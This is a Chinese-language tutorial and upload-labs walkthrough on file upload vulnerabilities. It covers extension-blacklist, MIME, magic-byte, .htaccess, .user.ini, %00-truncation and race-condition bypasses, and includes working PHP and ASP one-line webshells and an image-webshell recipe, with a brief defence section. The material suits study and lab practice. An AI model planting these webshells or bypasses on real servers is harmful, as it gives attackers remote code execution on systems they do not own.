## 什么是文件上传漏洞
文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解析文件。文件上传功能在web应用系统很常见，比如很多网站注册的时候需要上传头像、上传附件等等。当用户点击上传按钮后，后台会对上传的文件进行判断， 比如是否是指定的类型、后缀名、大小等等，然后将其按照设计的格式进行重命名后存储在指定的目录。 如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨，则攻击着可能会上传一些恶意的文件，比如一句话木马，从而导致后台服务器被webshell！

## Webshell简介
<font style="color:rgb(38, 38, 38);">文件的内容可以自定义，可以成为webshell，通过文件上传来上传网站后门，直接获取网站权限，属于高危漏洞。上传漏洞与SQL注入或 XSS相比 , 其风险更大 。可以获取数据库信息，可以对服务器提权，获取内网权限</font>

## 文件上传漏洞原理
<font style="color:rgb(38, 38, 38);">开发者没有将用户上传的文件经过严格的过滤，上传到了网站目录当中， 并且网站解析了上传的文件，导致恶意文件功能被执行， 称之为文件上传漏洞</font>

## 一句话木马
`<?php @eval($_POST[cmd]);   ?>`

## 文件上传漏洞攻击详解
<1.前端检测


<1.1原理

在点击上传文件时，游览器还没有向服务器发送请求前对本地上传文件进行的检测，这种检测主要是通过JS代码来检测文件的扩展名是否符合上传要求，并且这种检测可有可无，因为检测代码在用户游览器上运行，非常容易绕过！


<1.2绕过方法


<1.2.1 删除或禁用JS检测代码

删除JS代码必须得能认识JS检测代码，不然怎么删？另外，这种办法不稳定！

<1.2.2 抓包改后缀名（最稳妥的方法）

<1.3攻击方法

先在php文件中写入一句话木马，例如：

```plain
<?php eval($_REQUEST[666])?>
```

<font style="color:rgb(77, 77, 77);">接着使用BURP抓包将文件后缀改为.php格式上传！</font>



<font style="color:rgb(77, 77, 77);"><2.黑名单机制  
</font>_<font style="color:rgb(77, 77, 77);"><2.1原理</font>_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">将危险后缀名写入数组或文件中，当上传文件在黑名单中，则不允许上传！</font>

_<font style="color:rgb(77, 77, 77);"><2.2绕过方法</font>_


+ **<font style="color:rgb(77, 77, 77);">尝试修改后缀名</font>**<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">比如：黑名单中有.php/.jsp/.asp/.aspx等  
</font><font style="color:rgb(77, 77, 77);">可以抓包修改成jspf/asa/cer/php3~5/phtml/exee等；在默认情况下，这些都可以被解析为jsp/php格式！</font>
+ **<font style="color:rgb(77, 77, 77);">大小写绕过</font>**<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">我们可以通过后缀名大小写的方式绕过，除非非常老的Web容器版本会对后缀名大小写有检测，不然都不会区分大小写。  
</font><font style="color:rgb(77, 77, 77);">比如：要上传.php文件可以抓包修改为.pHp/.PHp等</font>
+ _**<font style="color:rgb(77, 77, 77);">双写绕过</font>**_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">对于一些检测到你上传的文件名带有危险字符时，他会自动替换成空。  
</font><font style="color:rgb(77, 77, 77);">例如：会将php替换成空，我们可以抓包把后缀名改成pphphp！</font>
+ **<font style="color:rgb(77, 77, 77);">后缀点空绕过</font>**<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">我们在windows电脑上创建文件时，如果在文件名末尾加上 .或者是空格，它都是会自动忽略或者是删除，在文件上传时也是一样，但是在黑名单中.或者是空格则不会被忽略。比如：上传.php文件抓包在后面加上点或空格，即可上传！  
</font><font style="color:rgb(77, 77, 77);">这里有个循环检测机制，黑名单中会循环检测文件末尾的点和空格，可以抓包加上 （‘.空格.’）或者是(‘空格.空格’)来绕过。</font>
+ _**<font style="color:rgb(77, 77, 77);">windows文件流绕过</font>**_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">通俗的理解，就是其它文件可以”寄宿“在某一个文件里，而在资源管理器中却只能看到宿主文件！例如：</font>





<font style="color:rgb(77, 77, 77);">只有查看文件流才能知道2.txt！  
</font><font style="color:rgb(77, 77, 77);">所以利用这一特性，在上传文件后面加上：：DATA即可绕过！</font>

+ **<font style="color:rgb(77, 77, 77);">解析漏洞</font>**<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);">IIS6.0解析漏洞，实际上是IIS6.0的一些特性导致的；</font>

```plain
IIS6.0 =&gt; windows server 2003 的全版本都默认安装自带IIS6.0(ASP)
.asp 会被当作asp文件处理
.jpg 会被当作jpg文件处理
   =&gt; 后缀调用的文件
asa cdx cer 都会当作asp执行（微软认为不是漏洞，是特殊的默认配置）
IIS6.0在处理含有特殊符号的文件路径时会出现逻辑漏洞
   例如：特殊符号影响：test.asp;.jpg   test.asp/123.jpg 
CGI解析漏洞（PHP和Web容器的通信方法）  任何文件后面加/.php
```

<font style="color:rgb(77, 77, 77);">我们只需上传一个asp的一句话木马</font>

```plain
<%eval request("cmd")%>
```

<font style="color:rgb(77, 77, 77);">< 3.白名单机制</font>  
_<font style="color:rgb(77, 77, 77);">< 3.1原理</font>_  
<font style="color:rgb(77, 77, 77);">与黑名单机制正好相反，只有在规定条件下才能运行！但是相对而言，白名单机制更加安全些！</font>  
_<font style="color:rgb(77, 77, 77);">< 3.2绕过方法</font>_

_**<font style="color:rgb(77, 77, 77);">解析漏洞</font>**__<font style="color:rgb(77, 77, 77);">  
</font>_<font style="color:rgb(77, 77, 77);">.htaccess文件解析漏洞</font>_<font style="color:rgb(77, 77, 77);">  
</font>_<font style="color:rgb(77, 77, 77);">什么是htaccess？</font>_<font style="color:rgb(77, 77, 77);">  
</font>_<font style="color:rgb(77, 77, 77);">全称是Hypetext.Assccess(超文本入口) .htaccess也被称为分布式配置文件，提供了针对目录改变配置的方法，</font><font style="color:rgb(77, 77, 77);">在特定的文档目录中放置一个包含一个或多个指令文件，以作用于此目录及其所有子目录！这个功能默认是不开启的！但是伪静态的站一般都会开启这个功能！</font>

```powershell
AddType application/x-httpd-php .jpg
```

<font style="color:rgb(77, 77, 77);">这条指令是指.jpg文件会被当作php来解析！攻击时，在上传一句话木马时将文件名改为.jpg上传后，紧接着上传这个文件，.htaccess文件与一句话木马文件上传的先后顺序无影响！我们直接是无法将文件命名为.htaccess的，这里得使用cmd来命名，在cmd中输入ren 1.txt .htaccess</font>



_**<font style="color:rgb(77, 77, 77);">%00截断与00截断</font>**_  
<font style="color:rgb(77, 77, 77);">在很多网站你上传文件后，会自动重命名，但是当读取到0x00时会认为文件已经结束！</font>  
<font style="color:rgb(77, 77, 77);">比如：上传一个1.php不行，但是可以1.php%00jpg，读取文件是从前往后的，当读取到%00时就会结束！解析文件是从后往前的，所以它会认为我们上传的文件是jpg格式！</font>

<font style="color:rgb(77, 77, 77);">%00实际上和00截断原理是一样的，只不过%00是经过URL编码的，解码之后就是0x00</font>

<font style="color:rgb(77, 77, 77);">当上传时碰到POST传参，因为POST传参是不会URL解码的，可以上传1.phpajpg用burp抓包后将a的HEX值改为00即可达到同样的效果！</font>

_**<font style="color:rgb(77, 77, 77);"><4.Content-Type方式绕过(MIME绕过)</font>**_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"><4.1原理  
</font><font style="color:rgb(77, 77, 77);">部分Web应用系统判定文件类型是通过content-type字段，黑客可以通过抓包，将content-type字段改为常见的图片类型。</font>

<font style="color:rgb(77, 77, 77);"><4.2常见的MIME类型</font>

```plain
text/plain （纯文本） 
text/html （HTML文档） 
text/javascript （js代码） 
application/xhtml+xml （XHTML文档） 
image/gif （GIF图像） 
image/jpeg （JPEG图像） 
image/png （PNG图像） 
video/mpeg （MPEG动画） 
application/octet-stream （二进制数据） 
application/pdf （PDF文档）
```

<font style="color:rgb(77, 77, 77);"><4.3绕过方法</font>  
<font style="color:rgb(77, 77, 77);">用BURP抓包将Content-Type改为允许的类型，如image/gif，从而绕过校验！</font>

_**<font style="color:rgb(77, 77, 77);"><5.文件头检测</font>**_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"><5.1原理  
</font><font style="color:rgb(77, 77, 77);">在每一个文件（包括图片，视频或其他的非ASCII文件）的开头（十六进制表示）实际上都有一片区域来显示这个文件的实际用法，这就是文件头标志。我们可以通过16进制编辑器打开文件，添加服务器允许的文件头以绕过检测。  
</font><font style="color:rgb(77, 77, 77);"><5.2常见的文件头</font>

```plain
GIF：47 49 46 38 39 61 
png：89 50 4E 47 0D 0A 1A 0A 
JPG：FF D8 FF E0 00 10 4A 46 49 46
PDF: 25 50 44 46 2D 31 2E
ZIP: 50 4B 03 04

```

<font style="color:rgb(77, 77, 77);"><5.3绕过方法  
</font><font style="color:rgb(77, 77, 77);">在我们编写一句话木马时，在开头处加上上面的文件头，即可绕过！</font>

_**<font style="color:rgb(77, 77, 77);"><6.图片马绕过</font>**_

<font style="color:rgb(77, 77, 77);"><6.1原理</font>_**<font style="color:rgb(77, 77, 77);">  
</font>**_<font style="color:rgb(77, 77, 77);">一般文件内容验证使用getimagesize函数检测,会判断文件是否是一个有效的文件图片,如果是,则允许上传,否则的话不允许上传。</font>_**<font style="color:rgb(77, 77, 77);">  
</font>**_<font style="color:rgb(77, 77, 77);"><6.2制作流程</font>

```plain
copy 1.jpg/b + 1.php/a 2.jpg
/b:指定以二进制格式复制、合并文件，用于图像或者声音类文件
/a:指定以ascii格式复制、合并文件用于txt等文本类文件
```

<font style="color:rgb(77, 77, 77);">新建文件夹，在文件夹中准备一张图片，再准备一个写有一句话木马的.php文件，最后在cmd中输入上述命令，即可生成图片马！</font>  
<font style="color:rgb(77, 77, 77);">为了应对对图片内容的检测，可以使用图+马+图的方式生成图片马，这种更加隐蔽一些</font>  
<font style="color:rgb(77, 77, 77);">例如：</font>

```plain
copy 1.jpg/b + 1.php/a 2.jpg  图+马
copy 2.jpg/b + 1.jpg/b 3.jpg  图片马+图

```



_**<font style="color:rgb(77, 77, 77);"><7.二次渲染</font>**_  
<font style="color:rgb(77, 77, 77);"><7.1原理</font>  
<font style="color:rgb(77, 77, 77);">在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。</font>

<font style="color:rgb(77, 77, 77);"><7.2绕过方法</font>  
<font style="color:rgb(77, 77, 77);">可以上传带有一句话木马的gif动图，因为gif比jpg和png的属性要多一些，而且一些基础属性无法改变的，但是在gif中插入一句话木马时要注意插入点，一些插入点会破坏图片！</font>



<font style="color:rgb(77, 77, 77);">还有可以配合条件竞争来绕过，因为二次渲染是先让你的图片上传，之后再检测！</font>  
<font style="color:rgb(77, 77, 77);"><7.3如何判断是二次渲染</font>  
<font style="color:rgb(77, 77, 77);">先上传一张正常图片，上传成功后下载到本地，利用16进制编辑器进行对比，看哪些数据被改变，哪些数据改变了！</font>

_**<font style="color:rgb(77, 77, 77);"><8.条件竞争</font>**_<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"><8.1原理  
</font><font style="color:rgb(77, 77, 77);">条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。  
</font><font style="color:rgb(77, 77, 77);"><8.2绕过方法  
</font><font style="color:rgb(77, 77, 77);">利用图+马生成图片马的方式</font>

```plain
file_put_contens（'a.php','<?php eval($_REQUEST[666])?>'）
```



<font style="color:rgb(77, 77, 77);">意思是在他将源文件删除前在网站根目录生成一个a.php文件。</font>

## <font style="color:rgb(79, 79, 79);">防御方法</font>
<font style="color:rgb(77, 77, 77);"><1.文件上传的目录设置为不可执行。只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响。</font>

<font style="color:rgb(77, 77, 77);"><2.判断文件类型。在判断文件类型时，可以结合使用MIME Type、后缀检查等方式。在文件类型检查中，强烈推荐白名单方式，黑名单的方式已经无数次被证明是不可靠的。此外，对于图片的处理，可以使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能包含的HTML代码。</font>

<font style="color:rgb(77, 77, 77);">< 3.使用随机数改写文件名和文件路径。文件上传如果要执行代码，则需要用户能够访问到这个文件。在某些环境中，用户能上传，但不能访问。如果应用了随机数改写了文件名和路径，将极大地增加攻击的成本。再来就是像shell.php.rar.rar和crossdomain.xml这种文件，都将因为重命名而无法攻击。</font>

<font style="color:rgb(77, 77, 77);"><4.使用安全设备防御。文件上传攻击的本质就是将恶意文件或者脚本上传到服务器，专业的安全设备防御此类漏洞主要是通过对漏洞的上传利用行为和恶意文件的上传过程进行检测。恶意文件千变万化，隐藏手法也不断推陈出新，对普通的系统管理员来说可以通过部署安全设备来帮助防御，例如：图床。</font>

### <font style="color:rgb(79, 79, 79);">补充</font>
<font style="color:rgb(77, 77, 77);">1.windows忽略大小写，Linux并不会忽略大小写，比如访问一个网站，将URL里面文件夹得名字改一个小写字母为大写，如果正常访问那一般是windows，如果访问出现问题一般是linux（快速检测不一定准），另外像文件后缀添加点空来绕过的也仅限于Windows！</font>

<font style="color:rgb(77, 77, 77);">2.00截断在高版本php是不存在的！</font>

<font style="color:rgb(77, 77, 77);">3.CGI解析漏洞在IIS7.0/7.5中也存在，实战中IIS7.X的比较多一些！</font>

<font style="color:rgb(77, 77, 77);">4.图片马制作时尽量选择小的图片，一般做了一个好马可以用很久的！</font>

<font style="color:rgb(77, 77, 77);">5.动态脚本语言不同，他们的一句话木马也是不一样的，可以上网搜，一大堆！</font>

<font style="color:rgb(77, 77, 77);">6.黑盒测试最重要的是试！！</font>

<font style="color:rgb(77, 77, 77);"></font>

## <font style="color:rgb(77, 77, 77);">uploads</font>
### 0x01 前端js绕过


### 0x02 文件类型校验


### 0x03 黑名单绕过之特殊后缀(php3、php5)


### 0x04 黑名单之.htaccess绕过
注意：这里对PHP版本有要求，只有不带nts的PHP版本才有效。

.htaccess内容

```plain
AddType application/x-httpd-php .jpg	
```

### 0x05 .user.ini 绕过
注意：该方法只对7.1以下的PHP版本有用。



本关在上传目录下存在readme.php的php文件，可以利用 .user.ini 文件 使得运行 readme.php 时 包含上传的图片，相当于readme.php也有webshell.php。

**.user.ini**


```plain
auto_prepend_file=cmd.jpg
```

**cmd.jpg**

```plain
<?php @eval($_GET['cmd']) ?>
```

### 0x06  大小写绕过


### 0x07 空格绕过
```bash
/upload-labs/include.php?file=upload/202302081401109951.php%20
```

### 0x08 黑名单之.绕过


### 0x09 黑名单之::$DATA绕过
注意：这里对PHP版本有要求，只有不带nts的PHP版本才有效。


### 0x10 黑名单之点+空格+点
 可以采用图片码绕过，也可以使用php. .的方法绕过可行  


### 0x11 双写绕过


### 0x12 白名单之%00截断 GET方法绕过
注意：这个东西已经是旧时代的产物的，所以有使用条件：  
1. php版本小于5.3.4  
2. php的magic_quotes_gpc为OFF状态


**00截断**

在ASCII码中，00代表的是空(Null)字符，在URL中表现为%00。在文件截断攻击中，就是采用空字符来误导服务器截断字符串，以达到绕过攻击的目的。00截断会导致文件上传路径截断

原理：

服务器后台采用的是move_uploaded_file()函数将上传的文件移动到新位置也就是文件另存，函数在执行的时候会有两个参数，第一个参数就是原文件的路径，第二个参数就是目标函数的路径，这两个路径都是作为字符串来出现的；该函数属于文件系统函数，涉及到文件操作，底层是采用C语言实现的，在C语言中，判断字符串是否结束是以空字符为标志的。因此，当上传的文件名中含有%00符号时，服务器会认为字符串到此结束，从而达到绕过的目的。


简单来说，在C语言中%00是字符串的结束标识符，而PHP就是C语言写的，所以继承了C语言的特性，所以判断为%00是结束符号不会继续往后执行。


利用前提条件：

PHP<5.3.29，且GPC关闭能够自定义上传路径

### 0x13 白名单之%00截断 POST方法绕过
注意：PHP版本小于5.3

Magic_quotes_gpc=Off


**解题思路：**

上传cmd.jpg文件，用BP抓包修改数据



  在burp 中 hex 请求数据中， 将空格(20)改成(00)进行截断  ，然后放包



### 0x14 白名单之文件包含漏洞getimagesize()检测绕过
Jpg格式图片的文件头标识：FFD8开头FFD9结尾

Png格式图片的文件头标识：89 20 4E 47 0D 0A

Gif格式图片的文件头标识：GIF89a GIF87a

本关存在文件包含漏洞，Incould可以将被包含的文件当PHP代码执行，，， 利用文件包含漏洞上传图片马

### 0x15 白名单之文件包含漏洞exif_imagetype()检测绕过


### 0x16 白名单之文件包含漏洞突破二次渲染


### 0x17 白名单之文件包含漏洞突破二次渲染


### 0x18 条件竞争


写马的马

```plain
<?php
$fp=fopen('cmd1.php','w');
fwrite($fp,'<?php phpinfo(); ?>');
fclose($fp);
?>
```


### 0x19 条件竞争+文件包含


### 0x20 文件名数组绕过
save_name 可控，可以通过 .,空格，00截断绕过对后缀的判断，  


### 0x21 多个条件绕过
源码逻辑：

1. 检查MIME （通过抓包改Content-Type 绕过）
2. 判断 POST参数 save_name 是否为空，
3. 判断$file 是否为数组，不是数组以 .分割化为数组
4. 取 $file 最后一个元素，作为文件后缀进行检查
5. 取 $file 第一位和第$file[count($file) - 1]作为文件名和后缀名保存文件


解题思路：

上传文件，BP抓包修改数据：

1、修改Content-Type为image/jpeg

修改save_name 为数组绕过对$file 的切割，最后$file 最后一个元素是 save_name[2] = jpg 绕过后缀检测 ， 然后reset($file) = webshell.php

$file[1] 没有定义为空，count($file) 的值为$file[count($file) - 1] = $file[1]

所以最后上传的文件为webshell.php



